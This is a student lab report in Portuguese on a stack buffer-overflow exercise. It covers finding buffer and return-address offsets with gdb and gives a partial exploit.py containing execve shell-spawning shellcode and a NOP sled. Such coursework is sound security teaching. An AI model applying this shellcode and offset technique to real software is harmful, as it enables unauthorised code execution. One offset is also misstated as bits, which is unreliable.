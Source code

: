 # Lab Semana 5

O objetivo do trabalho esta semana é perceber em detalhe o ataque de *buffer overflow* conhecido como *smashing the stack*.

### Task 1

Ao compilar `call_shellcode.c` e correr `a32.out` e `a64.out` separadamente, verificamos que ambos iniciam uma *shell* independentemente da arquitetura para qual é compilado.

### Task 3

Seguindo a sugestão no guião, adicionamos a seguinte linha a `stack.c`:

```c
printf("Address of buffer: %p\n", &buffer);
```

E ao correr o programa dentro e fora de `gdb` conseguimos descobrir o *offset* que o *debugger* incorre na memória.
Verificamos que o endereço de memória do *buffer* dentro do `gdb` foi `0xffffcadc`, e fora do mesmo obtivemos o valor de `0xffffcb4c`. Isto significa que há um *offset* de 112 bits.

Correndo `gdb stack-L1-dbg` e seguindo o guia, conseguimos obter os seguintes endereços de memória:

![](img/lab05/gdb.png)

A partir do valor de `ebp` e do endereço de `buffer` conseguimos obter *offset* de memória desde `buffer` até onde o *return adress* é guardado.

```
0xffffcb48 - 0xffffcadc = 108
```

Uma vez que o *return address* é guardado no endereço de memória anterior ao *stack frame*, o *offset* que realmente queremos é 112.

Finalmente, para calcular o *return address*, basta escolher um valor maior que 112 e que ocorra antes do início do *shellcode*, e que adicionalmente seja divisível por 4, como, por exemplo 120.

Assim, e utilizando o valor arbitrário de 200 como o índice do *buffer* onde começa o *shellcode*, `exploit.py` fica assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

```
